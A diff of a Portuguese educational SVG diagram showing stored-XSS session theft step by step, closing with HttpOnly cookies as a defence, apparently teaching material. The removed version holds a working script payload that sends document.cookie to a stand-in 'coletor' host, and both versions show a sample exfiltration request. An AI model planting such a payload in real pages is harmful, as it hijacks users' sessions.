

- <svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 900 560" role="img" aria-labelledby="t d">
+ <svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 1000 720" width="1000" height="720" role="img" aria-labelledby="t d">
  <style>
-     text { font-family: ui-monospace, "DejaVu Sans Mono", Menlo, Consolas, monospace; fill: #e6ede8; }
-     .t { font-size: 17px; font-weight: 700; }
-     .h { font-size: 13px; font-weight: 700; }
-     .b { font-size: 11.5px; }
-     .s { font-size: 10.5px; fill: #9fb0a6; }
-     .code { font-size: 10.5px; fill: #5cc8d8; }
-     .n { fill: #e8c46a; font-weight: 700; }
-     .atk { fill: #2a1b1b; stroke: #e88a8a; stroke-width: 1.3; }
-     .vic { fill: #16201b; stroke: #5ee08a; stroke-width: 1.3; }
-     .srv { fill: #1b2a3a; stroke: #5cc8d8; stroke-width: 1.2; }
-     .life { stroke: #2c3a33; stroke-width: 1.4; stroke-dasharray: 4 5; }
-     .msg { stroke: #5ee08a; stroke-width: 1.8; fill: none; }
-     .msgr { stroke: #e88a8a; stroke-width: 1.8; fill: none; }
+     text { font-family: 'SF Mono', 'Fira Code', 'Cascadia Code', 'DejaVu Sans Mono', 'Courier New', monospace; fill: #e2e8f0; letter-spacing: 0.02em; }
+     .title { font-size: 20px; font-weight: 700; }
+     .idea { font-size: 14px; font-weight: 700; }
+     .actor { font-size: 14px; font-weight: 700; }
+     .asub { font-size: 12px; fill: #94a3b8; }
+     .step { font-size: 12.5px; }
+     .stepr { font-size: 12.5px; fill: #fca5a5; }
+     .code { font-size: 11px; fill: #94a3b8; }
+     .note { font-size: 11.5px; fill: #94a3b8; }
+     .gold-h { font-size: 13px; font-weight: 700; fill: #facc15; }
+     .gold-b { font-size: 12.5px; fill: #fef3c7; }
+     .res-h { font-size: 15px; font-weight: 700; fill: #f87171; }
+     .res-b { font-size: 13.5px; }
+     .def-h { font-size: 12.5px; font-weight: 700; fill: #34d399; }
+     .def-b { font-size: 12px; fill: #a7f3d0; }
+     .leg { font-size: 12px; fill: #cbd5e1; }
  </style>
-   <rect width="900" height="560" fill="#121815" />
-   <text class="t" x="24" y="30">Roubo de sessão por XSS armazenado, passo a passo</text>
-   <rect class="atk" x="40" y="48" width="150" height="40" rx="8" />
-   <text class="h" x="115" y="73" text-anchor="middle" fill="#e88a8a">atacante</text>
-   <rect class="srv" x="280" y="48" width="180" height="40" rx="8" />
-   <text class="h" x="370" y="67" text-anchor="middle" fill="#5cc8d8">servidor + banco</text>
-   <text class="s" x="370" y="82" text-anchor="middle">(a app vulnerável)</text>
-   <rect class="vic" x="545" y="48" width="175" height="40" rx="8" />
-   <text class="h" x="632" y="67" text-anchor="middle" fill="#5ee08a">vítima (logada)</text>
-   <text class="s" x="632" y="82" text-anchor="middle">navegador</text>
-   <rect class="atk" x="760" y="48" width="120" height="40" rx="8" />
-   <text class="h" x="820" y="73" text-anchor="middle" fill="#e88a8a">coletor</text>
-   <line class="life" x1="115" y1="88" x2="115" y2="470" />
-   <line class="life" x1="370" y1="88" x2="370" y2="470" />
-   <line class="life" x1="632" y1="88" x2="632" y2="470" />
-   <line class="life" x1="820" y1="88" x2="820" y2="470" />
-   <path class="msgr" d="M115,120 L370,120" marker-end="url(#ar)" />
-   <text class="n" x="120" y="112">1</text>
-   <text class="b" x="130" y="112" fill="#e6ede8">planta o payload uma vez (um comentário)</text>
-   <text class="code" x="130" y="137">&lt;script&gt;new Image().src="http://coletor/?c="+document.cookie&lt;/script&gt;</text>
-   <rect x="310" y="150" width="120" height="20" rx="4" fill="#1b2a3a" stroke="#5cc8d8" />
-   <text class="code" x="370" y="164" text-anchor="middle">INSERT no banco</text>
-   <path class="msg" d="M632,200 L370,200" marker-end="url(#ag)" />
-   <text class="n" x="560" y="192">2</text>
-   <text class="b" x="400" y="192" fill="#e6ede8">a vítima abre a página</text>
-   <path class="msg" d="M370,236 L632,236" marker-end="url(#ag)" />
-   <text class="n" x="380" y="228">3</text>
-   <text class="b" x="392" y="228" fill="#e6ede8">a resposta traz o conteúdo + o script do atacante</text>
-   <rect x="612" y="252" width="40" height="70" rx="4" fill="#16201b" stroke="#5ee08a" />
-   <text class="n" x="662" y="272">4</text>
-   <text class="b" x="676" y="272" fill="#e6ede8">o navegador executa o script no contexto do site;</text>
-   <text class="b" x="676" y="290" fill="#e6ede8">o cookie NÃO é HttpOnly, então o JS lê</text>
-   <text class="code" x="676" y="308">document.cookie</text>
-   <path class="msgr" d="M632,348 L820,348" marker-end="url(#ar)" />
-   <text class="n" x="640" y="340">5</text>
-   <text class="b" x="652" y="340" fill="#e6ede8">envia o cookie ao coletor</text>
-   <text class="code" x="652" y="365">GET /?c=security=low;%20PHPSESSID=c7701e…</text>
-   <path class="msgr" d="M820,404 L115,404" marker-end="url(#ar)" />
-   <text class="n" x="760" y="396">6</text>
-   <text class="b" x="300" y="396" fill="#e6ede8">o atacante põe o cookie no próprio navegador → navega como a vítima</text>
-   <text class="s" x="300" y="421">sem nunca saber a senha: a sessão é a credencial</text>
-   <rect x="40" y="488" width="840" height="48" rx="8" fill="#16201b" stroke="#5ee08a" stroke-width="1.2" />
-   <text class="h g" x="54" y="508">Defesa que corta o passo 4:</text>
-   <text class="b" x="240" y="508" fill="#e6ede8">marcar o cookie de sessão como HttpOnly tira o</text>
-   <text class="code" x="54" y="526">document.cookie</text>
-   <text class="b" x="160" y="526" fill="#e6ede8">do alcance do script — o XSS ainda roda, mas não lê a sessão. É defesa em profundidade, não a cura.</text>
  <defs>
-     <marker id="ag" markerWidth="9" markerHeight="9" refX="7" refY="4.5" orient="auto">
-       <path d="M0,0 L9,4.5 L0,9 z" fill="#5ee08a" />
+     <linearGradient id="bg-grad" x1="0%" y1="0%" x2="100%" y2="100%">
+       <stop offset="0%" stop-color="#0f0f1a" />
+       <stop offset="100%" stop-color="#1a1a2e" />
+     </linearGradient>
+     <marker id="arrow-red" markerWidth="8" markerHeight="6" refX="7" refY="3" orient="auto">
+       <polygon points="0 0, 8 3, 0 6" fill="#ef4444" />
    </marker>
-     <marker id="ar" markerWidth="9" markerHeight="9" refX="7" refY="4.5" orient="auto">
-       <path d="M0,0 L9,4.5 L0,9 z" fill="#e88a8a" />
+     <marker id="arrow-grey" markerWidth="8" markerHeight="6" refX="7" refY="3" orient="auto">
+       <polygon points="0 0, 8 3, 0 6" fill="#94a3b8" />
    </marker>
+     <filter id="glow-gold">
+       <feGaussianBlur stdDeviation="3" result="blur" />
+       <feMerge>
+         <feMergeNode in="blur" />
+         <feMergeNode in="SourceGraphic" />
+       </feMerge>
+     </filter>
  </defs>
+   <rect width="1000" height="720" fill="url(#bg-grad)" />
+   <text class="title" x="500" y="36" text-anchor="middle">Roubo de sessão por XSS armazenado</text>
+   <rect x="120" y="50" width="760" height="34" rx="6" fill="#0f172a" stroke="#94a3b8" stroke-width="1.5" />
+   <text class="idea" x="500" y="72" text-anchor="middle">O script do atacante lê o cookie de sessão da vítima e o entrega a ele</text>
+   <rect x="35" y="104" width="170" height="50" rx="6" fill="#1f0d10" stroke="#ef4444" stroke-width="1.5" />
+   <text class="actor" x="120" y="134" text-anchor="middle">atacante</text>
+   <rect x="285" y="104" width="170" height="50" rx="6" fill="#0f172a" stroke="#64748b" stroke-width="1.5" />
+   <text class="actor" x="370" y="125" text-anchor="middle">site vulnerável</text>
+   <text class="asub" x="370" y="143" text-anchor="middle">(servidor + banco)</text>
+   <rect x="535" y="104" width="170" height="50" rx="6" fill="#0f172a" stroke="#64748b" stroke-width="1.5" />
+   <text class="actor" x="620" y="125" text-anchor="middle">navegador</text>
+   <text class="asub" x="620" y="143" text-anchor="middle">da vítima (logada)</text>
+   <rect x="785" y="104" width="170" height="50" rx="6" fill="#1f0d10" stroke="#ef4444" stroke-width="1.5" />
+   <text class="actor" x="870" y="125" text-anchor="middle">coletor</text>
+   <text class="asub" x="870" y="143" text-anchor="middle">(do atacante)</text>
+   <g stroke="#475569" stroke-width="1" stroke-dasharray="4 4">
+     <line x1="120" y1="154" x2="120" y2="532" />
+     <line x1="370" y1="154" x2="370" y2="532" />
+     <line x1="620" y1="154" x2="620" y2="532" />
+     <line x1="870" y1="154" x2="870" y2="532" />
+   </g>
+   <text class="stepr" x="245" y="190" text-anchor="middle">1. posta comentário com script</text>
+   <line x1="120" y1="200" x2="364" y2="200" stroke="#ef4444" stroke-width="2" marker-end="url(#arrow-red)" />
+   <text class="code" x="245" y="217" text-anchor="middle">&lt;script&gt;…document.cookie…&lt;/script&gt;</text>
+   <text class="note" x="380" y="204">o site guarda no banco</text>
+   <text class="step" x="495" y="252" text-anchor="middle">2. vítima abre a página</text>
+   <line x1="620" y1="262" x2="376" y2="262" stroke="#94a3b8" stroke-width="1.5" marker-end="url(#arrow-grey)" />
+   <text class="stepr" x="495" y="302" text-anchor="middle">3. a página vem com o script</text>
+   <line x1="370" y1="312" x2="614" y2="312" stroke="#ef4444" stroke-width="2" marker-end="url(#arrow-red)" />
+   <rect x="612" y="328" width="16" height="88" rx="3" fill="#eab308" />
+   <rect x="385" y="328" width="216" height="88" rx="6" fill="#2a2208" stroke="#eab308" stroke-width="2" filter="url(#glow-gold)" />
+   <text class="gold-h" x="397" y="349">4. MOMENTO-CHAVE</text>
+   <text class="gold-b" x="397" y="370">o script roda como se</text>
+   <text class="gold-b" x="397" y="388">fosse do site e LÊ o</text>
+   <text class="gold-b" x="397" y="406">cookie de sessão</text>
+   <text class="note" x="640" y="373">document.cookie</text>
+   <text class="note" x="640" y="390">(cookie sem HttpOnly)</text>
+   <text class="stepr" x="745" y="440" text-anchor="middle">5. envia o cookie</text>
+   <line x1="620" y1="450" x2="864" y2="450" stroke="#ef4444" stroke-width="2" marker-end="url(#arrow-red)" />
+   <text class="code" x="745" y="467" text-anchor="middle">GET /?c=PHPSESSID=c7701e…</text>
+   <rect data-graph-role="decoration" x="300" y="488" width="390" height="19" rx="3" fill="#15152a" />
+   <text class="stepr" x="495" y="502" text-anchor="middle">6. atacante põe o cookie no próprio navegador</text>
+   <line x1="870" y1="512" x2="126" y2="512" stroke="#ef4444" stroke-width="2" marker-end="url(#arrow-red)" />
+   <rect x="35" y="550" width="590" height="100" rx="8" fill="#3b0d0d" stroke="#ef4444" stroke-width="2.5" />
+   <text class="res-h" x="55" y="578">RESULTADO: o atacante vira a vítima</text>
+   <text class="res-b" x="55" y="604">navega logado na conta dela, sem nunca saber</text>
+   <text class="res-b" x="55" y="626">a senha: a sessão é a credencial</text>
+   <rect x="660" y="562" width="305" height="76" rx="6" fill="#0b1f17" fill-opacity="0.6" stroke="#10b981" stroke-width="1" stroke-dasharray="5 4" />
+   <text class="def-h" x="674" y="582">Defesa (à parte): HttpOnly</text>
+   <text class="def-b" x="674" y="602">o script ainda roda, mas não</text>
+   <text class="def-b" x="674" y="620">consegue ler o cookie → corta o 4</text>
